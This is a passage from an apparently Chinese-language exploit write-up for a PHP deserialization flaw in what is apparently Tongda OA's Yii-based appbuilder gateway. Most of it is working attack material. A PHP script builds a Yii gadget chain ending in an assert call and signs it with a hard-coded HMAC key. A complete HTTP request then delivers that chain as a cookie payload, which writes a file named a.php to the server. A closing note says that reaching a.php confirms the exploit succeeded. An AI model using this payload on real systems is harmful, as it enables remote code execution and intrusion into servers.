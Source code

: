 ```php
}

namespace yii\db{

    use yii\redis\Connection;
    class DataReader{
        private $_statement;

        public function __construct()
        {
            $this->_statement = new Connection();
            //调用Connection内的__call方法
        }
    }
    class BatchQueryResult{
        private $_dataReader;

        public function __construct()
        {
            $this->_dataReader = new DataReader();
            //去找close方法
        }
    }
}

namespace {
    use yii\db\BatchQueryResult;
    $data = serialize(new BatchQueryResult());
    $crypt = hash_hmac("sha256",$data,"tdide2",false);
    $data = urlencode($data);
    $payload = $crypt . $data;
    echo $payload;
}
```

数据包

```php
GET /general/appbuilder/web/portal/gateway/? HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _GET=30c8273d6cc86774871722e1b893260ca17813f62cf627a5e1dd1a342861e00eO%3A23%3A%22yii%5Cdb%5CBatchQueryResult%22%3A1%3A%7Bs%3A36%3A%22%00yii%5Cdb%5CBatchQueryResult%00_dataReader%22%3BO%3A17%3A%22yii%5Cdb%5CDataReader%22%3A1%3A%7Bs%3A29%3A%22%00yii%5Cdb%5CDataReader%00_statement%22%3BO%3A20%3A%22yii%5Credis%5CConnection%22%3A5%3A%7Bs%3A13%3A%22redisCommands%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A12%3A%22CLOSE+CURSOR%22%3B%7Ds%3A8%3A%22database%22%3BN%3Bs%3A4%3A%22port%22%3Bi%3A80%3Bs%3A29%3A%22%00yii%5Credis%5CConnection%00_socket%22%3Bb%3A0%3Bs%3A27%3A%22%00yii%5Cbase%5CComponent%00_events%22%3Ba%3A1%3A%7Bs%3A9%3A%22afterOpen%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3BO%3A21%3A%22yii%5Crest%5CCreateAction%22%3A2%3A%7Bs%3A11%3A%22checkAccess%22%3Bs%3A6%3A%22assert%22%3Bs%3A2%3A%22id%22%3Bs%3A35%3A%22file_put_contents%28%27a.php%27%2C%27TONGDA%27%29%22%3B%7Di%3A1%3Bs%3A3%3A%22run%22%3B%7Di%3A1%3Bs%3A3%3A%22run%22%3B%7D%7D%7D%7D%7D%7D
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

访问http://ip/general/appbuilder/web/a.php存在漏洞利用成功

0x05 参考
-------

<https://www.ctfiot.com/128812.html>